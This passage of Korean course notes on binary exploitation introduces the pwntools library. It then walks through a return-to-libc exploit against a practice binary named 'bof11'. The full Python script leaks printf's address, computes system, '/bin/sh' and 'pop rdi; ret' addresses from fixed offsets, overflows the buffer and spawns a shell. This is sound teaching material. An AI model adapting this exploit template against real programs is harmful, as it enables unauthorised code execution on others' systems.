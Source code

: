 ### pwntool

- [pwntool](https://github.com/Gallopsled/pwntools) : 익스플로잇 코드 개발 전용 라이브러리로써 POC 코드, 익스플로잇 코드를 개발할 때 필수적으로 사용되는 라이브러리이다. 

	- **POC 코드**에 필요한 `pwntool` 의 함수들

		- `process(argv)` : 익스플로잇 대상이 되는 실행파일을 실행하고 프로세스를 다룰 수 있도록 `Processes` 인스턴스를 반환한다. 

		- `recvuntil(delims)` : `delims` 이 나올 때까지 데이터를 받아서 반환한다. 

		- `p64(number)` : `number` 를 `64` 비트 형식으로 패킹(`packing`)한다. 

		- `send(data)` : `data` 를 프로세스에 입력한다. 

23. 이 함수들을 사용해서 익스플로잇을 시도해보자. `recvuntil` 함수로 'printf() address : ' 라는 문자열까지 데이터를 받은 후 '\n' 까지 데이터를 받으면 정확하게 `printf` 함수의 주소값을 반환 받을 수 있다. 

    - `system 함수 주소값 = printf 주소값 + X = A + (-66672)`

    - `"/bin/sh" 주소값 = printf 주소값 + Y = A + 1275223`

    - `"pop rdi ; ret" 주소값 = printf 주소값 + Z = A + (-214782)`

24. 그러면 그 주소값을 활용하여 페이로드를 제작한 후 `send` 함수로 페이로드를 보내서 익스플로잇을 시도한다. 쉘이 실행될 것이 예상되는 시점이기 때문에 `interactive` 함수로 프로세스에 입력 스트림과 출력 스트림을 연다. 

    ```python
    from pwn import *
    
    p = process('./bof11')
    
    p.recvuntil('printf() address : ')
    printf_addr = p.recvuntil('\n')
    printf_addr = int(printf_addr, 16)
    
    sys_addr = printf_addr + (-66672)
    binsh = printf_addr + (1275223)
    poprdi = printf_addr + (-214782)
    distance_to_returnAddr = 24
    
    exploit = "A" * distance_to_returnAddr
    exploit += p64(poprdi)
    exploit += p64(binsh)
    exploit += p64(sys_addr)
    p.send(exploit)
    
    p.interactive()
    ```
    
---

## 과제 

[HW.md](hw.md) 파일에 따라 과제를 하시면 됩니다. 